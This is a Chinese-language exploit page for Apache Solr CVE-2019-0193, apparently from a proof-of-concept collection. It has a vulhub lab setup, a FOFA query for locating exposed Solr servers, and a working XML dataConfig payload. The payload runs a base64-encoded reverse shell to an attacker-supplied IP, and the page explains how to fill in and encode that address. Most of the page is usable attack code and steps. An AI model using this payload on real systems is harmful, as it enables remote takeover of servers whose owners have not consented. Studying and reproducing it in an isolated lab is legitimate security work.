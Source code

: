 ```yaml
---
title: Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193
---
```


# Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193

## 漏洞描述
2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与data-config.xml 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 dataConfig 参数中可以包含 script 恶意脚本导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 环境搭建
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![6b8ee428-c68d-4517-8206-fb6eda9d4e5b](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/6b8ee428-c68d-4517-8206-fb6eda9d4e5b.png)

## 登录页面

点击刚刚创建的test进入调试

![9e50ce8c-94b7-461c-95e9-17030e72623f](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/9e50ce8c-94b7-461c-95e9-17030e72623f.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码

![7217d375-48e1-460e-bb1e-c1db123daff1](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/7217d375-48e1-460e-bb1e-c1db123daff1.png)

![999fb5d8-a762-4957-a9b7-a6e66df216dd](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/999fb5d8-a762-4957-a9b7-a6e66df216dd.png)
